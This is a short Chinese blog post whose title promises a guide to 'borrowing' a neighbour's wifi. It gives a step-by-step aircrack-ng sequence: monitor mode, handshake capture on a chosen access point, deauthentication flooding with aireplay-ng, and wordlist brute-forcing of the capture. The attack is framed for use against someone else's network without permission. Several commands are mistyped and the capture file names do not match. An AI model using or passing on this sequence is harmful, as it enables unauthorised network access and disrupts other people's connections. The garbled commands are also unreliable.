 ```yaml
---
layout:     post
title:      借用隔壁老王wifi攻略
category:   tag
description: 借用隔壁老王wifi攻略
---
```

这篇文章如题，详细的内容不描述。

System : Kali Linux
Tool airmon-ng , 可以探针wifi

1.检测wifi 的存在
<pre class="prettyprint">
iwcofing
</pre>

2.Check kill
<pre class="prettyprint">
airman-ng check kill
</pre>

3.查看无线网卡
<pre class="prettyprint">
airmon -ng
</pre>

4.开启无线网卡 
<pre class="prettyprint">
airmon -ng  start wlan0mon
</pre>

5.查找无线网络
<pre class="prettyprint">
airodump-ng wlan0mon
</pre>

6.网络抓包
<pre class="prettyprint">
airodump-ng -w vutfile -c 1 —bssid MacAddress wlan0mon
</pre>

7.ARP 发包
<pre class="prettyprint">
aireplay-ng -0 0 -a MacAddress wlan0mon
</pre>

8.暴力破解
<pre class="prettyprint">
aircrack-ng outfile1.cap -w /your_world_list_path
</pre>